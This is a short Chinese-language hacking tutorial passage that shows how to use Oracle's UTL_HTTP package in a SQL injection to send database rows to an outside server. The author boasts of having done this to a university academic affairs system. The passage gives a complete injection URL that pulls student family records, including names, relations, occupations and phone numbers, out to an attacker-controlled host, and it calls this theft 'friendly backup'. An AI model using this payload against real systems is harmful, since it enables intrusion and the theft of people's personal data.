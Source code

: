 在讲 Mysql 的时候提到过怎么在注入点去构造 SQL 语句去实现友情备份，在去年注入某大牛学校的教务处的时候我想到了一个简单有效的 SQL 注入点友情备份数据库的方法。没错就是利用 Oracle 的 utl_http 包。Oracle 的确是非常的强大，utl_http 就能过直接对外发送 Http 请求。我们可以利用 utl_http 去 SQL 注入，那么我们一样可以利用 utl_http 去做友情备份。

构建以下 SQL 注入语句：

```
http://60.xxx.xx.131/xxx/aao_66/index.jsp?fid=1+and+'1'in(SELECT+UTL_HTTP.request('http://xxx.cn:8080/xxxx/mysql.jsp?data='||ID||'----'||USERID||'----'||NAME||'----'||RELATION||'----'||OCCUPATION||'----'||POSITION||'----'||ASSN||UNIT||'----'||'----'||TEL)+FROM+STU_HOME) 
```

UTL_HTTP 会带着查询数据库的结果去请求我们的 URL，也就是我注入点上写的 URL。Tips：UTL_HTTP 是一条一条的去请求的，所以会跟数据库保持一个长连接。而数据量过大的话会导致数据丢失，如果想完整的友情备份这种方法并不是特别可行。只用在浏览器上请求这个注入点 Oracle 会自动的把自己的裤子送上门来那种感觉非常的好。

￼![enter image description here](img/img17_u20_png.jpg)

使用 UTL_HTTP 友情备份效果图：
￼
![enter image description here](img/img18_u19_png.jpg)
